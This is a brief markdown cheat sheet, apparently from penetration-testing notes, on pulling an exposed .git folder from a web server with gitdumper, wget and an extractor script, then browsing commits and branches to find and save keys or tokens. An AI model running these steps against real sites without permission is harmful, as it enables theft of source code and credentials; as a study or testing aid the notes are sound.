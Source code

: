 # GIT TOOLS

### Git tools are used when we locate an exposed .git folder that contains an entire repository with possibly sensitive information.

## TIP: USE THE COMMON.TXT WORDLIST TO SUCCESSFULLY ENUMERATE THE .GIT FOLDER!

## STEPS:

#### 1) gitdumper.sh http://WHATEVER/.git/ repo

## Alternate method: wget

 - wget -r http://DOMAIN.COM/.git

#### 2) Go to the directory where the .git folder is located

#### 3) /path/to/extractor.sh . App

#### 4) git log (Gets all commits in the repository)

#### 5) git branch -a (Show all branches a repository has)

#### 6) git show COMMIT_NUMBER (See the specific commit in detail)

#### 7) git checkout BRANCH (Switch to another branch)

#### 8) git branch (Check in which branch are we now)

#### 9) git show COMMIT_NUMBER^:FILE.json > token.json (If we found a file/key/token, we can check the filename upon seeing the commit, then we store it locally with this command)
